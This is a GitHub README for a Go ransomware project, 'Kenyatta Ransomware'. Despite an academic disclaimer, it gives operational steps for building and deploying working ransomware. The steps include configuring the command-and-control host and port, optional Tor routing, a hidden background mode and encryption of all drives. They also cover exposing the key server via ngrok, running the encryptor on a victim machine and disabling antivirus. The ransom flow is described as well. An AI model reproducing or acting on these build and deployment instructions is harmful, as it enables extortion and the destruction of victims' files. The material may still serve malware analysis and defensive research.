


[](./LICENSE)

        bUILT WITH BYOR Tool -Mauri , ChatGPT, Obfuscator, LIFKA
# <h1 align="center"> Kenyatta Ransomware 🤐 </h1>

       

⚠️⚠️ONE CRITICAL VULNERABILITY⚠️⚠️

    curl/libcurl4:Exposure of Resource to Wrong Sphere

> PS: This project is purely academic, use at your own risk. I will not condone, in any way, the use of this software illegally or to attack targets without their authorization. Please do that on a throw-away machine, docker containers and VMs. 

> Note: Unfortunately now some AVs (Malwarebytes, Windows Defender) detect the unlocker as a virus🥶. Disable any antivirus to play with the project or the decryption key maybe quarantined or deleted by the AV 🤭 Thus almost impossible to recover your data 🥲

**Remember, security is always a double-edged sword**


## 👉 What is Ransomware😈



Ransomware is a type of malware that prevents or limits users from accessing their system, either by locking the system's screen or by locking the users' files unless a ransom is paid. More modern ransomware families, collectively categorized as crypto-ransomware, encrypt certain file types on infected systems and force users to pay the ransom through certain online payment methods to get a decryption key.



## 👉 The Project ☠️

This project was developed in my pursuit to learn malware reverse engineering and threat Inteligence. Basically, it will encrypt your files in background using AES-256-CTR, a strong encryption algorithm, using RSA-4096 to secure the exchange with the server, optionally using the Tor SOCKS5 Proxy. The base functionality is what you see in the famous ransomware Cryptolocker.

The project is composed by three parts, the server, the malware and the unlocker.

The server stores the victim's identification key along with the encryption key used by the malware.

The malware encrypts with a RSA-4096 (RSA-OAEP-4096 + SHA256) public key any payload before sending them to the server. This approach with the optional Tor Proxy and a `.onion` domain allows you to hide almost completely.

## 👉 Features ☠️

- Run in Background (or not)
- Encrypts files using AES-256-CTR(Counter Mode) with random IV for each file.
- Multithreading.
- RSA-4096 to secure the client/server communication.
- Includes an Unlocker. Coz I never meant to hurt you...🤭 {Eminem}
- Optional TOR Proxy support.
- Uses AES CTR Cypher with stream encryption to avoid loading an entire file into memory.
- Walk all drives by default.
- Docker image for compilation.
- Tried to create a .ova..........TRIED😔

## 👉 Building the binaries ☠️

> DON'T RUN ransomware.exe IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT! It will encrypt all your disks!

First, download the project outside your $GOPATH:

```bash
git clone github.com/alvin-tosh/Malware-Exhibit/tree/main/Advanced%20Malware/Kenyatta%20ransomware
cd ransomware
```

> If you have Docker skip to the next section.

You need Go at least 1.11.2 with the `$GOPATH/bin` in your $PATH and `$GOROOT` pointing to your Go installation folder. For me:

```bash
export GOPATH=~/gopath
export PATH=$PATH:$GOPATH/bin
export GOROOT=/usr/local/go
```

Building the project requires a lot of steps, like the RSA key generation, build three binaries, embed manifest files, so, let `make` do your job:

```bash
make deps
make
```

You can build the server for windows with `make -e GOOS=windows`.

### ✊ Docker ☠️

```bash
./build-docker.sh make
```

### 👊 Config Parameters ☠️

You can change some of the configs during compilation. Instead of running `make` only, you can use the following variables:

```bash
HIDDEN='-H windowsgui' # optional. If present the malware will run in background

USE_TOR=true # optional. If present the malware will download the Tor proxy and use it to contact the server

SERVER_HOST=mydomain.com # the domain used to connect to your server. localhost, 0.0.0.0, 127.0.0.1 works too if you run the server on the same machine as the malware

SERVER_PORT=8080 # the server port, if using a domain you can set this to 80

GOOS=linux # the target os to compile the server. Eg: darwin, linux, windows
```

Example:

`make -e USE_TOR=true SERVER_HOST=mydomain.com SERVER_PORT=80 GOOS=darwin`

The `SERVER_` variables above only apply to the malware. The server has a flag `--port` that you can use to change the port that it will listen on.

> DON'T RUN ransomware.exe ON YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT! I'm not resposible if you accidentally encrypt all your disks!

## 👉 Step by Step Demo and How it Works ☠️

For this demo I'll use two machines, my personal linux machine and a windows 10 VM.

For the sake of simplicity, I have a folder mapped to the VM, so I can compile from my linux and copy to the vm.

In this demo we will use the [Ngrok](https://ngrok.com) tool, this will allow us to expose our server using a domain, but you can use your own domain or ip address if you want. We are also going to enable the Tor transport, so `.onion` domains will work without problems.

First of all lets start our external domain:

```bash
ngrok http 8080
```

This command will give us a url like ` http://2af7161c.ngrok.io`. Keep this command running otherwise the malware won't reach our server.

Let's compile the binaries (remember to replace the domain):

```bash
make -e SERVER_HOST=2af7161c.ngrok.io SERVER_PORT=80 USE_TOR=true
```

The `SERVER_PORT` needs to be `80` in this case, since ngrok redirects `2af7161c.ngrok.io:80` to your local server port `8080`.

After build, a binary called `ransomware.exe`, and `unlocker.exe` along with a folder called `server` will be generated in the bin folder. The execution of `ransomware.exe` and `unlocker.exe` (even if you use a diferent GOOS variable during compilation) is locked to windows machines only.

Enter the server directory from another terminal and start it:

```bash
cd bin/server && ./server --port 8080
```

To make sure that it is working correctly, make a http request to `http://2af7161c.ngrok.io`:

```bash
curl http://2af7161c.ngrok.io
```

If you see a `OK` and some logs in the server output you are ready to go.

Move the `ransomware.exe` and `unlocker.exe` to the VM along with some dummy files to test the malware. You can take a look at [cmd/common.go] to see some configuration options like file extensions to match, directories to scan, skipped folders, max size to match a file among others.

Then simply run the `ransomware.exe` and watch the magic happen :smile:.

The window that you see can be hidden using the `HIDDEN` option described in the compilation section.

After download, extract and start the Tor proxy, the malware waits until the tor bootstrapping is done and then proceed with the key exchange with the server. The client/server handshake happens and the client payload, encrypted with an RSA-4096 public key must be correctly decrypted on the server. The victim identification and encryption keys are stored in a Golang embedded database called BoltDB (it also persists on disk). When completed we get into the find, match and encrypt phase, up to N-cores workers start to encrypt files matched by the patterns defined. This proccess is really quick and in seconds all of your files will be gone.

The encryption key exchanged with the server was used to encrypt all of your files. Each file has a random primitive called [IV](https://en.wikipedia.org/wiki/Initialization_vector), generated individually and saved as the first 16 bytes of the encrypted content. The algorithm used is AES-256-CTR, a good AES cypher with streaming mode of operation such that the file size is left intact.

The only two sources of information available about what just happen are the `READ_TO_DECRYPT.html` and `FILES_ENCRYPTED.html` in the Desktop.

In theory, to decrypt your files you need to send an amount of BTC to the attacker's wallet, followed by a contact sending your ID(located on the file created on desktop). If the attacker can confirm your payment it will possibly(or maybe not) return your encryption key and the `unlocker.exe` and you can use then to recover your files. This exchange can be accomplished in several ways and WILL NOT be implemented in this project for obvious reasons.

Suppose you get your encryption key back. To recover the correct key point to the following url:

```bash
curl -k http://2af7161c.ngrok.io/api/keys/:id
```

Where `:id` is your identification stored in the file on desktop. After, run the `unlocker.exe` by double click and follow the instructions.

That's it, got your files back :smile:

The server has only two endpoints:

`POST api/keys/add` - Used by the malware to persist new keys. Some verifications are made, like the verification of the RSA autenticity. Returns 204 (empty content) in case of success or a json error.

`GET api/keys/:id` - Id is a 32 characters parameter, representing an Id already persisted. Returns a json containing the encryption key or a json error

## 👉 The end ☠️

Building a LIVE ransomware, with some of the best existing algorithms is not dificult, anyone with some programming skills can build that in any programming language.

 [](./LICENSE)
